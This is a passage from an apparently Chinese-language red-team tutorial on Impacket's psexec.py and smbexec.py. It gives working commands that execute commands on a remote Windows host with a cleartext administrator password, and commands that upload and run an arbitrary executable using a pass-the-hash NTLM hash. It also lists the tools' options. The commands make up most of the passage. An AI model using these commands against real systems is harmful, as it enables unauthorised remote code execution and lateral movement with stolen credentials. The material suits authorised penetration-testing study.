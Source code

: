 ```plain
py -3 psexec.py test/administrator:1qaz@WSX@192.168.40.156 whoami
```

[![](assets/1702372846-ea4e5c8388218a9c91fba5c4afe3f006.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124122920-909b866a-6bb0-1.png)

**上传文件并执行**

```plain
py -3 psexec.py test/administrator@192.168.40.156 "/c 1+1"  -remote-binary-name test.exe  -codec 936 -path c:\windows\temp\ -c p.exe -hashes :161cff084477fe596a5db81874498a24
```

#### 常用选项

```plain
-port [destination port] 指定目标SMB的端口
-codec codec 目标回显的编码，可先执行chcp.com拿到回显编码
-service-name service_name 指定创建服务的名称，默认随机
-remote-binary-name remote_binary_name 指定上传文件的名称，默认随机
```

### smbexec.py

可使用密码认证、hash认证、kerberos认证。

需要注意此脚本有一些参数是硬编码的，最好使用前修改一下。还可以增加单行命令执行的功能。

[![](assets/1702372846-147b0d3a3feb75f71e39ee15830d3d2f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124122940-9ce681ae-6bb0-1.png)
